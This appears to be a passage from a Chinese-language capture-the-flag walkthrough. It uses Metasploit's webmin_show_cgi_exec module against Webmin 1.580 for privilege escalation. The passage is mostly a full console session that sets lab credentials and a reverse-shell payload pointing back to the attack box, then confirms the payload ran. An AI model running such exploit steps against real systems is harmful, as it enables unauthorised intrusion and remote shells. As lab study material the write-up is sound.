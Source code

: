 ![](img/9c4d159f0d87a88dc9ccc8d5d581478b.png)

**图 7:登录 Webmin 面板后。**

该版本的 Webmin 为`1.580`(图 7a)，易受远程命令执行攻击，可用于权限提升目的。我将在攻击箱上配置漏洞:

```
**└─$ sudo msfconsole** [... snip ...]**msf6 > use exploit/unix/webapp/webmin_show_cgi_exec**
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PAYLOAD payload/cmd/unix/reverse**
PAYLOAD => cmd/unix/reverse
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set USERNAME agent47**
USERNAME => agent47
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set PASSWORD videogamer124**
PASSWORD => videogamer124
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RHOSTS 127.0.0.1**
RHOSTS => 127.0.0.1
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set RPORT 4444
RPORT => 4444**[... snip ...]**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LHOST <attackbox ip>**
LHOST => <attackbox ip>
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set LPORT 4446**
LPORT => 4446
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > set SSL false**
[!] Changing the SSL option’s value may require changing RPORT!
SSL => false
**msf6 exploit(unix/webapp/webmin_show_cgi_exec) > exploit**[*] Started reverse TCP double handler on <attackbox ip>:4446 
[*] Attempting to login…
[+] Authentication successful
[+] Authentication successful
[*] Attempting to execute the payload…
[*] Accepted the first client connection…
[*] Accepted the second client connection…
[+] Payload executed successfully
[*] Command: echo za1W8NUh1pucbcDG;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets…
[*] Reading from socket A
[*] A: "za1W8NUh1pucbcDG\r\n"
```